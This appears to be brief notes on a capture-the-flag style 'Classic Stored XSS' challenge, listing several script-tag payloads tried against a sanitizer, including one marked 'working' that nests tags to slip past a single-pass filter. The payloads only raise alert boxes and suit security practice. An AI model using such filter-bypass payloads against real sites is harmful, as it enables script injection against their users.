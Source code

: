 ## Classic Stored XSS
### Challenge: Perform an XSS attack with <script>alert(`xss`)</script> on a legacy page within the application.


<script>alert('Hello!')</script>
lert('Hello!')</script>

<script>A<script>Aalert('hello')</script>
alert('hello')</script>


working:
<<a>sscript>alert('Hello!')</script>
